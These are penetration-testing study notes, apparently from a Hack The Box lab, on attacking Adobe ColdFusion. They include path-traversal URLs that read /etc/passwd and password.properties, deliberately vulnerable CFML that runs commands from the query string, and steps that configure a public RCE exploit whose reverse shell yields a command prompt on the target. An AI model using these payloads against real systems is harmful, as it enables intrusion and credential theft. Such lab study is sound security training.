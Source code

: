 # Attacking ColdFusion

searchsploit adobe coldfusion

## Directory Traversal

Example of vulnerable code :
<cfdirectory directory="#ExpandPath('uploads/')#" name="fileList">
<cfloop query="fileList">
    <a href="uploads/#fileList.name#">#fileList.name#</a><br>
</cfloop>

http://example.com/index.cfm?directory=../../../etc/&file=passwd

CVE-2010-2861 is the Adobe ColdFusion - Directory Traversal exploit discovered by searchsploit. It is a vulnerability in ColdFusion that allows attackers to conduct path traversal attacks.

CFIDE/administrator/settings/mappings.cfm
logging/settings.cfm
datasources/index.cfm
j2eepackaging/editarchive.cfm
CFIDE/administrator/enter.cfm

http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=en
http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=../../../../../etc/passwd

searchsploit -p 14641
cp /usr/share/exploitdb/exploits/multiple/remote/14641.py .
python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"

## Unauthenticated RCE

--> execute arbitrary code on a vulnerable system without requiring authentication

Example of vulnerable code :
<cfset cmd = "#cgi.query_string#">
<cfexecute name="cmd.exe" arguments="/c #cmd#" timeout="5">

http://www.example.com/index.cfm?%3B%20echo%20%22This%20server%20has%20been%20compromised%21%22%20%3E%20C%3A%5Ccompromise.txt

http://www.example.com/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=

--> CVE-2009-2265

searchsploit -p 50057
cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py .
vi 50057.py
if __name__ == '__main__':
    # Define some information
    lhost = '10.10.14.55' # HTB VPN IP
    lport = 4444 # A port not in use on localhost
    rhost = "10.129.247.30" # Target IP
    rport = 8500 # Target Port
    filename = uuid.uuid4().hex

python3 50057.py

## LAB



searchsploit -p 50057
cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py .
vi 50057.py
if __name__ == '__main__':
    # Define some information
    lhost = '10.10.14.205' # HTB VPN IP
    lport = 4444 # A port not in use on localhost
    rhost = "10.129.200.101" # Target IP
    rport = 8500 # Target Port
    filename = uuid.uuid4().hex

python3 50057.py

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
